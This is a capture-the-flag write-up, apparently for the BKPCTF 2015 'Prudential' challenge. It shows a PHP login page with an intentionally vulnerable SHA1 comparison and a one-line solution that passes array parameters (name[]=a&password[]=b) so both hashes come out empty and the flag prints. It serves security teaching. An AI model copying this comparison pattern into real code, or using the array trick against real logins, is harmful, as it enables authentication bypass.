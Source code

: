 # Prudential
---
I dont think that sha1 is broken. Prove me wrong. : 25

## Source code

```
<html>
<head>
	<title>level1</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

<?php
require 'flag.php';

if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        print 'Your password can not be your name.';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        print '<p class="alert">Invalid password.</p>';
}
?>

<section class="login">
	<div class="title">
		<a href="./index.txt">Level 1</a>
	</div>

	<form method="get">
		<input type="text" required name="name" placeholder="Name"/><br/>
		<input type="text" required name="password" placeholder="Password" /><br/>
		<input type="submit"/>
	</form>
</section>
</body>
</html>

```

## Solution

Because there's no option to find two different strings which will generate equals SHA1 IDs (although theoretically it is possible), we have to find other way to pass login validation.

If we "break" types of parameters passed to script, condition is not executed and 'Flag' displays:

```
http://52.10.107.64:8001/?name[]=a&password[]=b
```

Note: This is sample error output from local script:

> Warning: sha1() expects parameter 1 to be string, array given in (...)ctf/BKPCTF2015/test.php on line 14

> Warning: sha1() expects parameter 1 to be string, array given in (...)ctf/BKPCTF2015/test.php on line 14

> Flag:
